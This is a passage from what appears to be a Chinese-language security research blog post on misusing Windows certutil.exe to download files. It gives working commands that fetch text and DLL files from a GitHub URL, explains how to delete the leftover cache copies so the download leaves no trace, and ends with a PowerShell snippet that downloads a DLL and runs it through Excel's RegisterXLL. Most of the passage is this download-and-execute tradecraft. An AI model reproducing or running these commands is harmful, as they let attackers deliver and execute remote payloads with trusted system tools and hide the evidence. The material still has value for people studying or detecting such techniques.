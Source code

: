 (2) 保存在当前路径，指定保存文件名称

eg：

`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt file.txt`

(3) 保存在缓存目录，名称随机

缓存目录位置： `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`

eg：

`certutil.exe -urlcache -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt`

(4) 支持保存二进制文件

eg：

`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll`

**注：**

使用downloader默认在缓存目录位置： `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`保存下载的文件副本

**清除下载文件副本方法：**

**方法1：**直接删除缓存目录对应文件

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-26/2-1.png)

**方法2：**命令行:

`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll delete`

**补充：**

查看缓存项目：

`certutil.exe -urlcache *`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-26/2-2.png)

**实际测试：**

测试系统安装Office软件，下载执行dll对应的powershell代码如下：

```
$path="c:\test\msg1.dll"
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll $path
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
$excel.RegisterXLL($path)
```

测试如下图
